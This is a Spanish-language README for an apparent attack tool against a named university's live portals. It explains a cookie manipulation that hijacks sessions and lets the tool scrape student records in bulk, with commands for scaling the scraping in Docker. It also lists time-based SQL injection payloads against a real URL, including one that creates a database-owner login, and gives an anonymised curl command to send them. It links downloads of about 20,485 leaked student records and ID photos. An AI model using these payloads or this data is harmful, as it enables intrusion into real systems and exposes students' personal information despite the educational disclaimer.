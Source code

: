 
<div align="end">
<img
 style="object-fit: cover;"
 src="./assets/icons8-hack-60.png" >
</div>

# Script scraping vunerability from uped portal

> [!CAUTION]
> Este script fue creado con fines educativos,en ningun momento se pretende hacer daño a la universidad o a su portal web al contrario se pretende ayudar a mejorar la seguridad de la misma

## 🗒️ Descripcion

Script que permite obtener la información de estudiantes y la sesion de un usuario en el portal de la universidad. Ademas de poder inyectar codigo SQL en una cookie en la base de datos de la universidad.

## 🍪 En que consiste la vulnerabilidad

La vunerabilidad consiste en manipular la cookie de una session para obtener la informacion de un usuario sin necesidad de logearse en el portal de la universidad.

la estructura de cookie es la siguiente:

```json
{
  ".ASPXAUTH": "puede ser cualquier sesion",
  "ASP.NET_SessionId": "id de la session del autenticacion",
  "CodigoUsuario": "codigo del usuario",
  "usuario": "nombre del usuario",
}
```

## 📋 Requisitos

- Node.js v20.0.0

## 🚀 Instalación

```bash
git clone https://github.com/epmyas2022/uped-vunerabilidad.git
```

```bash
npm install
```

Configurar las variables de entorno en el archivo `.env`

```env
ASPXAUTH=#de cualquier sesion
SESSION_ID=#id de la session del autenticacion
ARGS=#argumentos para el navegador
```

## 💻 Comandos

Obtener la informacion del expediente de los estudiantes basados en un rango  x1 a x2

```bash
npm run general <x1> <x2> [optional | Boolean] <headless>
```

Obtener la sesion de un usuario

```bash
npm run login <user> <codigo>
```

Obtener la sesion del portal de pagos de un estudiante

```bash
npm run pagos <user> <codigo>
```

## 🐳 Con docker

Esto es util para ejecutar el script en un contenedor docker, podriamos ejecutar x cantidad de contenedores para obtener la informacion de los estudiantes.

Construir la imagen (builder)

```bash
docker build -f .docker/Dockerfile --target builder -t uped-vunerabilidad .
```

Construir el contenedor

```bash
docker run -it -d -e ASPXAUTH=token -e SESSION_ID=id -e FROM=desde -e TO=hasta --privileged --security-opt seccomp=.docker/chrome.json uped-vunerabilidad
```

## 📂 Estructura de archivos

Dentro de la carpeta data se encuentra varios datos con que se comprobo la vulnerabilidad del portal de la universidad. estos datos obtenidos fueron mediante el script aprovechando la vulnerabilidad.
en total existen aproximadamente **20,485** registros de estudiantes.

## Vunerabilidad en inyeccion de SQL

Se descubrio otra vunerabilidad que permite inyectar codigo SQL en una cookie y mediante esto se logro obtener acceso a la base de datos de la universidad. La url a la que se le inyecto el codigo SQL fue la siguiente:

```url
https://myappcloud.net/uped/portal_catedratico/externa.aspx
```

Ejemplo de inyeccion SQL

Con esto se valida si es vulnerable a inyeccion SQL si es vunerable se demorara 20 segundos en responder.

```sql
' BEGIN WAITFOR DELAY '0:0:20'--
```

Con la siguiente inyeccion se logro encontrar cual es el nombre de la base de datos de la universidad.

```sql
' IF EXIST (SELECT 1 FROM sys.databases WHERE name LIKE '%uonline_uped%') BEGIN WAITFOR DELAY '0:0:20' END--
```

Con la siguiete inyeccion se logro crear un usuario en la base de datos de la universidad para su posterior uso.

```sql
'IF  (SELECT COUNT(*) FROM sys.databases WHERE name LIKE 'uonline_uped') > 0 BEGIN USE uonline_uped CREATE LOGIN mssql_user WITH password = 'your_password' CREATE USER mssql_user FOR LOGIN mssql_user ALTER ROLE db_owner ADD MEMBER mssql_user WAITFOR DELAY '0:0:20' END--
```

Ejemplo de `curl` para inyectar codigo SQL

```bash
torify curl -X GET "https://myappcloud.net/uped/portal_catedratico/externa.aspx" \
  --cookie ".ASPXAUTH=<auth_de_cualquier_sesion>" \
  --cookie "ASP.NET_SessionId=<id_de_cualquier_sesion>" \
  --cookie "CodigoUsuario=1789" \
  --cookie "Usuario=<injection_sql>" 
```

## Descargar datos

- Tabla de *ra_per_personas* (informacion de estudiantes) [aqui](https://u.pcloud.link/publink/show?code=XZvRx55ZgUc7an7IIyfF27CLa93Wo7KCf6Yy)

- Tabla de *ra_per_foto_carne* (foto de carne de estudiantes) [aqui](https://u.pcloud.link/publink/show?code=XZ9sx55ZEXFqi3MoUjzyXUdw1isK1jm1Wu0y)

## Sitios vulnerables

- [x] Portal de la universidad [aqui](https://myappcloud.net/uped/login.aspx)
- [x] Portal de pagos [aqui](https://saas.spsoftware.net/uped_pagos/)
- [x] Portal de docentes [aqui](https://myappcloud.net/uped/portal_catedratico/externa.aspx)
